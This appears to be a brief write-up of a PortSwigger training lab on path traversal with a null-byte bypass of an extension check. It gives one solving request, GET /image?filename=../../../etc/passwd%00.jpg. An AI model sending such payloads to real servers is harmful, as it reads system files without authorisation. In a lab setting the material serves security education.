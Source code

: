 # 6 - Validation of file extension with null byte bypass

> This lab contains a [file path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.
>
>  The application validates that the supplied filename ends with the expected file extension.
>
>  To solve the lab, retrieve the contents of the `/etc/passwd` file.

![](../../.gitbook/assets/imagen%20%28637%29.png)

```text
GET /image?filename=../../../etc/passwd%00.jpg HTTP/1.1
```



